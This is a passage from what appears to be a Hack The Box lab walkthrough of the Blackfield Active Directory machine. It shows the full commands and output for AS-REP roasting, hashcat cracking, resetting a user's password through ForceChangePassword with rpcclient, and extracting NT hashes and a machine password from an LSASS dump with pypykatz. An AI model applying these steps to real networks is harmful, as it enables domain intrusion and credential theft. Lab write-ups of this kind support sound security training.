  RNemnich                            D        0  Wed Jun  3 12:47:12 2020
  RPoretsky                           D        0  Wed Jun  3 12:47:12 2020
  RStuehringer                        D        0  Wed Jun  3 12:47:12 2020
  RSzewczuga                          D        0  Wed Jun  3 12:47:12 2020
  RVallandas                          D        0  Wed Jun  3 12:47:12 2020
  RWeatherl                           D        0  Wed Jun  3 12:47:12 2020
  RWissor                             D        0  Wed Jun  3 12:47:12 2020
  SAbdulagatov                        D        0  Wed Jun  3 12:47:12 2020
  SAjowi                              D        0  Wed Jun  3 12:47:12 2020
  SAlguwaihes                         D        0  Wed Jun  3 12:47:12 2020
  SBonaparte                          D        0  Wed Jun  3 12:47:12 2020
  SBouzane                            D        0  Wed Jun  3 12:47:12 2020
  SChatin                             D        0  Wed Jun  3 12:47:12 2020
  SDellabitta                         D        0  Wed Jun  3 12:47:12 2020
  SDhodapkar                          D        0  Wed Jun  3 12:47:12 2020
  SEulert                             D        0  Wed Jun  3 12:47:12 2020
  SFadrigalan                         D        0  Wed Jun  3 12:47:12 2020
  SGolds                              D        0  Wed Jun  3 12:47:12 2020
  SGrifasi                            D        0  Wed Jun  3 12:47:12 2020
  SGtlinas                            D        0  Wed Jun  3 12:47:12 2020
  SHauht                              D        0  Wed Jun  3 12:47:12 2020
  SHederian                           D        0  Wed Jun  3 12:47:12 2020
  SHelregel                           D        0  Wed Jun  3 12:47:12 2020
  SKrulig                             D        0  Wed Jun  3 12:47:12 2020
  SLewrie                             D        0  Wed Jun  3 12:47:12 2020
  SMaskil                             D        0  Wed Jun  3 12:47:12 2020
  Smocker                             D        0  Wed Jun  3 12:47:12 2020
  SMoyta                              D        0  Wed Jun  3 12:47:12 2020
  SRaustiala                          D        0  Wed Jun  3 12:47:12 2020
  SReppond                            D        0  Wed Jun  3 12:47:12 2020
  SSicliano                           D        0  Wed Jun  3 12:47:12 2020
  SSilex                              D        0  Wed Jun  3 12:47:12 2020
  SSolsbak                            D        0  Wed Jun  3 12:47:12 2020
  STousignaut                         D        0  Wed Jun  3 12:47:12 2020
  support                             D        0  Wed Jun  3 12:47:12 2020
  svc_backup                          D        0  Wed Jun  3 12:47:12 2020
  SWhyte                              D        0  Wed Jun  3 12:47:12 2020
  SWynigear                           D        0  Wed Jun  3 12:47:12 2020
  TAwaysheh                           D        0  Wed Jun  3 12:47:12 2020
  TBadenbach                          D        0  Wed Jun  3 12:47:12 2020
  TCaffo                              D        0  Wed Jun  3 12:47:12 2020
  TCassalom                           D        0  Wed Jun  3 12:47:12 2020
  TEiselt                             D        0  Wed Jun  3 12:47:12 2020
  TFerencdo                           D        0  Wed Jun  3 12:47:12 2020
  TGaleazza                           D        0  Wed Jun  3 12:47:12 2020
  TKauten                             D        0  Wed Jun  3 12:47:12 2020
  TKnupke                             D        0  Wed Jun  3 12:47:12 2020
  TLintlop                            D        0  Wed Jun  3 12:47:12 2020
  TMusselli                           D        0  Wed Jun  3 12:47:12 2020
  TOust                               D        0  Wed Jun  3 12:47:12 2020
  TSlupka                             D        0  Wed Jun  3 12:47:12 2020
  TStausland                          D        0  Wed Jun  3 12:47:12 2020
  TZumpella                           D        0  Wed Jun  3 12:47:12 2020
  UCrofskey                           D        0  Wed Jun  3 12:47:12 2020
  UMarylebone                         D        0  Wed Jun  3 12:47:12 2020
  UPyrke                              D        0  Wed Jun  3 12:47:12 2020
  VBublavy                            D        0  Wed Jun  3 12:47:12 2020
  VButziger                           D        0  Wed Jun  3 12:47:12 2020
  VFuscca                             D        0  Wed Jun  3 12:47:12 2020
  VLitschauer                         D        0  Wed Jun  3 12:47:12 2020
  VMamchuk                            D        0  Wed Jun  3 12:47:12 2020
  VMarija                             D        0  Wed Jun  3 12:47:12 2020
  VOlaosun                            D        0  Wed Jun  3 12:47:12 2020
  VPapalouca                          D        0  Wed Jun  3 12:47:12 2020
  WSaldat                             D        0  Wed Jun  3 12:47:12 2020
  WVerzhbytska                        D        0  Wed Jun  3 12:47:12 2020
  WZelazny                            D        0  Wed Jun  3 12:47:12 2020
  XBemelen                            D        0  Wed Jun  3 12:47:12 2020
  XDadant                             D        0  Wed Jun  3 12:47:12 2020
  XDebes                              D        0  Wed Jun  3 12:47:12 2020
  XKonegni                            D        0  Wed Jun  3 12:47:12 2020
  XRykiel                             D        0  Wed Jun  3 12:47:12 2020
  YBleasdale                          D        0  Wed Jun  3 12:47:12 2020
  YHuftalin                           D        0  Wed Jun  3 12:47:12 2020
  YKivlen                             D        0  Wed Jun  3 12:47:12 2020
  YKozlicki                           D        0  Wed Jun  3 12:47:12 2020
  YNyirenda                           D        0  Wed Jun  3 12:47:12 2020
  YPredestin                          D        0  Wed Jun  3 12:47:12 2020
  YSeturino                           D        0  Wed Jun  3 12:47:12 2020
  YSkoropada                          D        0  Wed Jun  3 12:47:12 2020
  YVonebers                           D        0  Wed Jun  3 12:47:12 2020
  YZarpentine                         D        0  Wed Jun  3 12:47:12 2020
  ZAlatti                             D        0  Wed Jun  3 12:47:12 2020
  ZKrenselewski                       D        0  Wed Jun  3 12:47:12 2020
  ZMalaab                             D        0  Wed Jun  3 12:47:12 2020
  ZMiick                              D        0  Wed Jun  3 12:47:12 2020
  ZScozzari                           D        0  Wed Jun  3 12:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
  ZWausik                             D        0  Wed Jun  3 12:47:12 2020

                5102079 blocks of size 4096. 1694595 blocks available
```

The share `profiles$` contains a lot of users' named directories. They are all empty though.
Let's save this names into `usernames.txt` to use it as a wordlist.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -U 'guest' --password '' \\\\10.10.10.192\\profiles$ -c "ls" | grep -v '\.' | awk '{print $1}' > usernames.txt

┌──(kali㉿kali)-[~/htb]
└─$ head usernames.txt
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
AHigchens
AJaquemai

┌──(kali㉿kali)-[~/htb]
└─$ wc -l usernames.txt 
315 usernames.txt
```

Since I retrieved 315 potential AD usernames list, I think I can perform `AS-REPRaosting` attack.

### Kerberos(88)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.192 BLACKFIELD.local/ -usersfile usernames.txt -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
<SNIP>
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$support@BLACKFIELD.LOCAL:87673cf37d4866bbf58e315089189cd7$4c2cfd22e6e71c7cd0f183c49a0c0bc630a90bacd4e14bb6836aca3eecde94f16aa1e5eb282d4c0aac689373261171a7d05483a8f7cf59633ec46bbbf3bc49f7bd22586febd353914b08885cfe3a96a7d60e069f75c5b6e1e6361ae9145d249b59c70693cafb6721daf22841c20e8986ae343a3e7797a3ebab434b05011e808a2364ba695cbc57da8d1ffa27586b89d759e4a4a072af8e214c02d24575d53d31acb0169c0700cf5a4a90511c0f35b1f488f6171f682538ac7a07f282e6c0f7b60efe7740841647de27fe434a0c455cd07177a3a844f92e058a282400b7d96c6b123593a01dbb4d4f8a3d84567a5681a22c3bf32e
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
<SNIP>
```

Luckily, I was able to capture `support`'s kerberos hash.

```bash
$krb5asrep$23$support@BLACKFIELD.LOCAL:87673cf37d4866bbf58e315089189cd7$4c2cfd22e6e71c7cd0f183c49a0c0bc630a90bacd4e14bb6836aca3eecde94f16aa1e5eb282d4c0aac689373261171a7d05483a8f7cf59633ec46bbbf3bc49f7bd22586febd353914b08885cfe3a96a7d60e069f75c5b6e1e6361ae9145d249b59c70693cafb6721daf22841c20e8986ae343a3e7797a3ebab434b05011e808a2364ba695cbc57da8d1ffa27586b89d759e4a4a072af8e214c02d24575d53d31acb0169c0700cf5a4a90511c0f35b1f488f6171f682538ac7a07f282e6c0f7b60efe7740841647de27fe434a0c455cd07177a3a844f92e058a282400b7d96c6b123593a01dbb4d4f8a3d84567a5681a22c3bf32e
```

Let's try crack it with `hashcat`

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 18200 -a 0 support.asrep /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

<SNIP>

$krb5asrep$23$support@BLACKFIELD.LOCAL:87673cf37d4866bbf58e315089189cd7$4c2cfd22e6e71c7cd0f183c49a0c0bc630a90bacd4e14bb6836aca3eecde94f16aa1e5eb282d4c0aac689373261171a7d05483a8f7cf59633ec46bbbf3bc49f7bd22586febd353914b08885cfe3a96a7d60e069f75c5b6e1e6361ae9145d249b59c70693cafb6721daf22841c20e8986ae343a3e7797a3ebab434b05011e808a2364ba695cbc57da8d1ffa27586b89d759e4a4a072af8e214c02d24575d53d31acb0169c0700cf5a4a90511c0f35b1f488f6171f682538ac7a07f282e6c0f7b60efe7740841647de27fe434a0c455cd07177a3a844f92e058a282400b7d96c6b123593a01dbb4d4f8a3d84567a5681a22c3bf32e:#00^BlackKnight
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:87673cf37d48...3bf32e

<SNIP>
```

It cracked `support`'s hash : `#00^BlackKnight`

Let's test it with `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.192 -u "support" -p "#00^BlackKnight"
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.192 -u "support" -p "#00^BlackKnight"
SMB         10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight

┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec ldap 10.10.10.192 -u "support" -p "#00^BlackKnight"
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.192    445    DC01             [-] BLACKFIELD.local\support:#00^BlackKnight Error connecting to the domain, are you sure LDAP service is running on the target ?
```


# Access as `support`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbmap -H 10.10.10.192 -u 'support' -p '#00^BlackKnight'
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
                     https://github.com/ShawnDEvans/smbmap

<SNIP>

[+] IP: 10.10.10.192:445        Name: blackfield.local          Status: Authenticated                                                                 
        Disk                                                    PermissionsComment
        ----                                                    ------------------
        ADMIN$                                                  NO ACCESS Remote Admin
        C$                                                      NO ACCESS Default share
        forensic                                                NO ACCESS Forensic / Audit share.
        IPC$                                                    READ ONLY Remote IPC
        NETLOGON                                                READ ONLY Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY Logon server share 
```

4 shares are accessible.

```bash
┌──(kali㉿kali)-[~/htb/smb_sysvol]
└─$ smbclient -U 'support' --password '#00^BlackKnight' \\\\10.10.10.192\\sysvol
Try "help" to get a list of possible commands.
smb: \> cd BLACKFIELD.local\
smb: \BLACKFIELD.local\> ls
  .                                   D        0  Sun Feb 23 06:19:28 2020
  ..                                  D        0  Sun Feb 23 06:19:28 2020
  DfsrPrivate                      DHSr        0  Sun Feb 23 06:19:28 2020
  Policies                            D        0  Sun Feb 23 06:13:14 2020
  scripts                             D        0  Sun Feb 23 06:13:05 2020

                5102079 blocks of size 4096. 1693967 blocks available
smb: \BLACKFIELD.local\> recurse on
smb: \BLACKFIELD.local\> prompt off
smb: \BLACKFIELD.local\> mget *
NT_STATUS_ACCESS_DENIED listing \BLACKFIELD.local\DfsrPrivate\*
getting file \BLACKFIELD.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 22 as Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \BLACKFIELD.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)


┌──(kali㉿kali)-[~/htb/smb_sysvol]
└─$ tree                                                    
.
├── DfsrPrivate
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   └── Registry.pol
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts

┌──(kali㉿kali)-[~/…/MACHINE/Microsoft/Windows NT/SecEdit]
└─$ cat GptTmpl.inf 
��[Unicode]
Unicode=yes
[System Access]
MinimumPasswordAge = 1
MaximumPasswordAge = 42
MinimumPasswordLength = 7
PasswordComplexity = 1
PasswordHistorySize = 24
LockoutBadCount = 0
RequireLogonToChangePassword = 0
ForceLogoffWhenHourExpire = 0
ClearTextPassword = 0
LSAAnonymousNameLookup = 0
[Kerberos Policy]
MaxTicketAge = 10
MaxRenewAge = 7
MaxServiceAge = 600
MaxClockSkew = 5
TicketValidateClient = 1
[Registry Values]
MACHINE\System\CurrentControlSet\Control\Lsa\NoLMHash=4,1
[Version]
signature="$CHICAGO$"
Revision=1
```

No useful information found.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetUserSPNs -dc-ip 10.10.10.192 BLACKFIELD.local/support:'#00^BlackKnight' -request
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

No entries found!
```

I tested `Kerberoasting` as well, but it was not successful.


# Access as `audit2020`

Since I've failed in all previous enumeration, let's run BloodHound.
Since we don't have any valid shell for now, let's run `bloodhound-python`.

```bash
┌──(kali㉿kali)-[~/htb/BloodHound]
└─$ bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192 
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.blackfield.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 27S
```

I checked `support` "mark as owned", and tried to see its outbound control.


It has `ForceChangePassword` permission on `AUDIT2020` user.
Let's change the user's password using `rpcclient`.

### Exploit `ForceChangePassword` permission

```bash
┌──(kali㉿kali)-[~/htb/scripts]
└─$ rpcclient -U 'support%#00^BlackKnight' 10.10.10.192
rpcclient $> setuserinfo2 AUDIT2020 23 'bokchee12!@'
rpcclient $> exit
                                                                           
┌──(kali㉿kali)-[~/htb/scripts]
└─$ crackmapexec smb 10.10.10.192 -u 'AUDIT2020' -p 'bokchee12!@'
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\AUDIT2020:bokchee12!@ 
                                                                           
┌──(kali㉿kali)-[~/htb/scripts]
└─$ crackmapexec winrm 10.10.10.192 -u 'AUDIT2020' -p 'bokchee12!@'
SMB         10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\AUDIT2020:bokchee12!@
```


# Shell as `svc_backup`

### Using `LSASS` dump to extract hash

I still don't have an access to `winrm` but `smb` is working.
Let's see what shares are accessible.

```bash
┌──(kali㉿kali)-[~/htb/scripts]
└─$ crackmapexec smb 10.10.10.192 -u 'AUDIT2020' -p 'bokchee12!@' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\AUDIT2020:bokchee12!@ 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

The user `AUDIT2020` has additional access on `forensic`.
Let's download the files in it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics]
└─$ smbclient -U 'AUDIT2020' --password 'bokchee12!@' \\\\10.10.10.192\\forensic
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                5102079 blocks of size 4096. 1693518 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \commands_output\domain_admins.txt of size 528 as commands_output/domain_admins.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
getting file \commands_output\domain_groups.txt of size 962 as commands_output/domain_groups.txt (1.8 KiloBytes/sec) (average 1.4 KiloBytes/sec)
getting file \commands_output\domain_users.txt of size 16454 as commands_output/domain_users.txt (29.4 KiloBytes/sec) (average 11.0 KiloBytes/sec)
<SNIP>


┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics]
└─$ tree
.
├── commands_output
│   ├── domain_admins.txt
│   ├── domain_groups.txt
│   ├── domain_users.txt
│   ├── firewall_rules.txt
│   ├── ipconfig.txt
│   ├── netstat.txt
│   ├── route.txt
│   ├── systeminfo.txt
│   └── tasklist.txt
├── memory_analysis
│   └── conhost.zip
└── tools

4 directories, 10 files

┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ smbclient -U 'AUDIT2020' --password 'bokchee12!@' \\\\10.10.10.192\\forensic
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020
cd m
                5102079 blocks of size 4096. 1689326 blocks available
smb: \> cd memory_analysis\

smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                5102079 blocks of size 4096. 1689326 blocks available
```

I think the `mget` command couldn't download the files in `/memory_analysis` due to the size issue. Let's manually download the files. Plus, I need to set `--timout=300`.
I think `lsass.zip` file might be useful. Let's download it.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ smbclient -U 'AUDIT2020' --password 'bokchee12!@' \\\\10.10.10.192\\forensic --timeout=300      
Try "help" to get a list of possible commands.
smb: \> cd memory_analysis\
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020
get 
                5102079 blocks of size 4096. 1689326 blocks available
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (1004.3 KiloBytes/sec) (average 1004.3 KiloBytes/sec)
```

Then, let's try to extract credentials using `pypykatz`.

```php-template
┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

== LogonSession ==
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server 
logon_time 2020-02-23T17:59:38.218491+00:00
sid S-1-5-96-0-2
luid 365835
        == MSV ==
                Username: DC01$
                Domain: BLACKFIELD
                LM: NA
                NT: b624dc83a27cc29da11d9bf25efea796
                SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
                DPAPI: NA
        == WDIGEST [5950b]==
                username DC01$
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: DC01$
                Domain: BLACKFIELD.local
                Password: &SYVE+<ynu`Ql;gvEE!f$DoO0F+,gP@P`fra`z4&G3K'mH:&'K^SW$FNWWx7J-N$^'bzB1Duc3^Ez]En kh`b'YSV7Ml#@G3@*(b$]j%#L^[Q`nCP'<Vb0I6
                password (hex)260053005900560045002b003c0079006e007500600051006c003b00670076004500450021006600240044006f004f00300046002b002c006700500040005000600066007200610060007a0034002600470033004b0027006d0048003a00260027004b005e0053005700240046004e0057005700780037004a002d004e0024005e00270062007a004200310044007500630033005e0045007a005d0045006e0020006b00680060006200270059005300560037004d006c00230040004700330040002a002800620024005d006a00250023004c005e005b00510060006e004300500027003c0056006200300049003600
        == WDIGEST [5950b]==
                username DC01$
                domainname BLACKFIELD
                password None
                password (hex)

<SNIP>

== LogonSession ==
authentication_id 153705 (25869)
session_id 1
username Administrator
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T17:59:04.506080+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-500
luid 153705
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
                DPAPI: 240339f898b6ac4ce3f34702e4a89550
        == WDIGEST [25869]==
                username Administrator
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: Administrator
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [25869]==
                username Administrator
                domainname BLACKFIELD
                password None
                password (hex)
        == DPAPI [25869]==
                luid 153705
                key_guid d1f69692-cfdc-4a80-959e-bab79c9c327e
                masterkey 769c45bf7ceb3c0e28fb78f2e355f7072873930b3c1d3aef0e04ecbb3eaf16aa946e553007259bf307eb740f222decadd996ed660ffe648b0440d84cd97bf5a5
                sha1_masterkey d04452f8459a46460939ced67b971bcf27cb2fb9

<SNIP>
```

While it has multiple `LogonSession` credentials, the first on the list `svc_backup`, and `Administrator` look intriguing. Let's crack their NT hash.

Here are the NT hashes:
- svc_backup : 9658d1d1dcd9250115e2205d9f48400d
- Administrator : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ cat hashes           
9658d1d1dcd9250115e2205d9f48400d
7f1e4ff8c6a8e6b6fcae2d9c0572cd62


┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ hashcat -m 1000 -a 0 hashes /usr/share/wordlists/rockyou.txt.gz
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

<SNIP>

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: hashes
Time.Started.....: Fri Dec 13 11:28:26 2024 (3 secs)
Time.Estimated...: Fri Dec 13 11:28:29 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
<SNIP>
```

It couldn't crack the hashes. Instead, let's try reusing these hashes with `Pass-The-Hash` attack.
First, let's test the hashes with `crackmapexec`.

```bash
